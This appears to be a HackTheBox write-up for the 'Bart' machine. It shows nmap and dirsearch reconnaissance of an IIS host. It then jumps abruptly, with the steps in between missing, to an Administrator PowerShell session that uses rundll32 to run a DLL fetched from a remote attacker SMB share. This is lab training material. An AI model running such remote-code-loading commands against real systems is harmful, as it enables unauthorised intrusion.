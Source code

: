 
## Hackthebox Bart


Today the machine is Bart by mrh4sh. Start off with a quick nmap as usual.
```
$ nmap -v -sC -sV -Pn 10.10.10.81
```
```bash
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 50465238F8A85D0732CBCC8EB04920AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Just IIS running on what looks like a windows 10 machine that redirects to forum.bart.htb. We do a quick check for any php files sitting on the web server.
```bash
$ dirsearch.py -u 10.10.10.81 -e php

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 5963

Error Log: /root/git/dirsearch/logs/errors-19-07-10_15-19-43.log

Target: 10.10.10.81

[15:19:43] Starting: 
[15:19:46] 403 -  312B  - /%2e%2e/google.com
[15:28:40] 200 -   87B  - /error.html
[15:29:16] 301 -  148B  - /forum  ->  http://10.10.10.81/forum/
[15:29:16] 500 -   75B  - /forum/admin/
[15:29:16] 500 -   75B  - /forum/install/install.php
[15:30:16] 302 -    0B  - /index.php  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /INDEX.PHP  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /index.PHP  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /index.php/login/  ->  http://forum.bart.htb/
[15:32:26] 200 -    3KB - /monitor/
```
We take a wild guess that monitor might be another subdomain, so add these addresses forum.bart.htb and monitor.bart.htb to our /etc/hosts and start to look around. The forum seems to be a wordpress site with mostly default content still. There are a few pictures of some employees of this place, the rest looks like garbage:



[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"